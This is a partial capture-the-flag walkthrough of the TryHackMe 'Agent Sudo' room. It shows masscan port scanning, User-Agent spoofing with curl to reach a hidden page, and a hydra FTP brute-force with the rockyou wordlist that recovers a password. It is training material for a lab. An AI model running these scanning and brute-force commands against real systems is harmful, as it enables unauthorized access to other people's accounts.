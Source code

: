 https://tryhackme.com/room/agentsudoctf

## Task 1

no answer required

## Task 2

### How many open ports?

```
kali@kali:~/Downloads$ sudo masscan -e tun0 -p1-65535,U:1-65535 10.10.164.129 --rate=1000
[sudo] password for kali: 

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-07-26 15:04:13 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 21/tcp on 10.10.164.129                                   
Discovered open port 80/tcp on 10.10.164.129                                   
Discovered open port 22/tcp on 10.10.164.129   
```
answer

```
3
```

### How you redirect yourself to a secret page?

we get this message after nagivating to the web page

```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```

user-agent is an option we can set using curl

```
kali@kali:~$ curl -A "R" -L 10.10.206.40
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
<!DocType html>
<html>
<head>
        <title>Annoucement</title>
</head>

<body>
<p>
        Dear agents,
        <br><br>
        Use your own <b>codename</b> as user-agent to access the site.
        <br><br>
        From,<br>
        Agent R
</p>
</body>
</html>
```

answer
```
user-agent
```

### What is the agent name?

we get this message when we set -A to "C"

```
kali@kali:~$ curl -A "C" -L 10.10.206.40
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

answer
```
chris
```

## Task 3

### FTP password

lets crack chris' FTP password using hydra

```
kali@kali:~$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.206.40 -t 4 ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-27 00:10:39
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://10.10.206.40:21/
[STATUS] 60.00 tries/min, 60 tries in 00:01h, 14344339 to do in 3984:33h, 4 active
[STATUS] 57.33 tries/min, 172 tries in 00:03h, 14344227 to do in 4169:51h, 4 active
[21][ftp] host: 10.10.206.40   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-27 00:15:12

```

answer

```
crystal
```

### Zip file password
